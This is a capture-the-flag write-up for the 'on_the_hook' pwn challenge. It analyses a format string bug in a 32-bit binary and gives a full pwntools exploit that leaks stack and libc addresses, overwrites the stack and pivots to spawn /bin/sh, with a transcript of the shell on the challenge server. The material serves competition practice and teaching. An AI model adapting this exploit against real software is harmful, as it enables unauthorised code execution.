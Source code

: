 ## on_the_hook

> Points: 461
>
> Solves: 22

### Description:
Captain Malloc lost his hook find it and than grab a shell for your effort.

nc ctf.k3rn3l4rmy.com 2201

### Attachments:
```
https://ctf.k3rn3l4rmy.com/kernelctf-distribution-challs/on_the_hook/on_the_hook

https://ctf.k3rn3l4rmy.com/kernelctf-distribution-challs/on_the_hook/libc.so.6
```

## Analysis:

This binary is clearly vulnerable to FSB (Format String Bug). The binary uses a while loop, so we can use the FSB 5 times.
However, because it is Full Relro, GOT overwrite cannot be performed, and the main function ends with exit (0), so the return address of the main function cannot be changed.


```c
$ ./on_the_hook 
echo:
AAAA,%p,%p,%p,%p,%p,%p,%p,%p
AAAA,0x40,0xf7fa65a0,0x8049292,(nil),0xffffd223,0x1,0x41414141,0x2c70252c     <---- FSB
```

```c
$ checksec on_the_hook
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/on_the_hook'
    Arch:     i386-32-little
    RELRO:    Full RELRO         <--- Full Relro
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Below is the decompiled result by Ghidra.
```c
void main(void)

{
  int in_GS_OFFSET;
  EVP_PKEY_CTX *in_stack_ffffffa0;
  int local_58;
  char local_54 [64];
  undefined4 local_14;
  undefined *puStack16;
  
  puStack16 = &stack0x00000004;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  init(in_stack_ffffffa0);
  puts("echo:");
  local_58 = 1;
  while (local_58 < 6) {
    fgets(local_54,0x40,stdin);
    printf(local_54);                <------------ FSB
    local_58 = local_58 + 1;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}

```

## Solution:

Since Got overlay is not possible, I considered the following two methods, but I used the former method. See the code in `solve_malloc_hook.py` for the latter.

--Call system('/bin/sh') by Stack pivot by rewriting the return address of printf

--Launch `/bin/sh` by writing One gadget to __malloc_hook

The Exploit code has done the following steps:

(1) Leak the Stack address using FSB to identify the return address

(2) Libc address leak using FSB to identify the address of the system function

(3) Using the ROP gadget of "add esp, 0x100; ret", write the address of the system function to the stack of the address where the return address to the main function is written + 0x104 bytes.

(4) As in (3), write the address of `/bin/sh` to the stack of the address where the return address to the main function is written + 0x10c bytes.

(5) Rewrite the return address that returns from printf to the main function to the address of "add esp, 0x100; ret".

When returning from printf to the main function in the above procedure, system ('/ bin / sh') can be started after "add esp, 0x100; ret".


The address of Stack pivot is obtained below.
```bash
$ ropper -f /lib/i386-linux-gnu/libc-2.23.so --nocolor > rop_l.txt
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

mito@ubuntu:~/CTF/K3RN3LCTF/Pwn_on_the_hook$ grep ": add esp" rop_l.txt 
...
0x00076a71: add esp, 0x100; ret;
...
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='i386')
#context.log_level = 'debug'

BINARY = './on_the_hook'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "ctf.k3rn3l4rmy.com"
  PORT = 2201
  s = remote(HOST, PORT)
  libc = ELF("./libc.so.6")
  stack_pivot = 0x00076991 # add esp, 0x100; ret;  
else:
  s = process(BINARY)
  libc = elf.libc
  stack_pivot = 0x00076a71 # add esp, 0x100; ret; 
  #s = process(BINARY, env={'LD_PRELOAD': './libc.so.6'})
  #libc = ELF("./libc.so.6")
  #stack_pivot = 0x00076991 # add esp, 0x100; ret;  

index = 7

# Lead stack address
s.sendline("%21$p")
s.recvuntil("echo:\n")
stack_leak  = int(s.recvuntil('\n'), 16)
target_addr = stack_leak - 0x118
print("stack_leak  =", hex(stack_leak))
print("target_addr =", hex(target_addr))

# Leak libc address
s.sendline(p32(elf.got.setvbuf) + b"%7$s")
s.recv(4)
setvbuf     = u32(s.recv(4))
libc_base   = setvbuf - libc.sym.setvbuf
system_addr = libc_base + libc.sym.system
binsh_addr  = libc_base + next(libc.search(b'/bin/sh'))

print("setvbuf     =", hex(setvbuf))
print("libc_base   =", hex(libc_base))

# Write system address in stack
writes = {target_addr + 0x104: system_addr}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

# Write /bin/sh address in stack
writes = {target_addr + 0x10c: binsh_addr}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

# Stack pivot(add esp, 0x100; ret;) and Start /bin/sh
writes = {target_addr: libc_base + stack_pivot}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

s.interactive()

```

## Results:
```bash
mito@ubuntu:~/CTF/K3RN3LCTF/Pwn_on_the_hook$ python3 solve_stack_pivot.py r
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/on_the_hook'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2201: Done
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
solve.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.sendline("%21$p")
solve.py:22: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.recvuntil("echo:\n")
solve.py:23: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  stack_leak  = int(s.recvuntil('\n'), 16)
stack_leak  = 0xff825894
target_addr = 0xff82577c
setvbuf     = 0xf7e24360
libc_base   = 0xf7dc4000
[*] Paused (press any to continue)
[*] Switching to interactive mode
...
$ id
uid=1000 gid=1000 groups=1000
$ ls -l
total 1920
-rw-rw-r-- 1 nobody nogroup      46 Nov 11 02:58 flag.txt
-rwxrwxr-x 1 nobody nogroup  147688 Nov 11 02:58 ld-2.23.so
-rwxrwxr-x 1 nobody nogroup 1786484 Nov 11 02:58 libc.so.6
-rwxrwxr-x 1 nobody nogroup   19672 Nov 11 22:59 run
$ cat flag.txt
flag{m4l1oc_h0ok_4nd_0n3_g4d9et_3a5y_a5_7h4t}

```

## Reference:

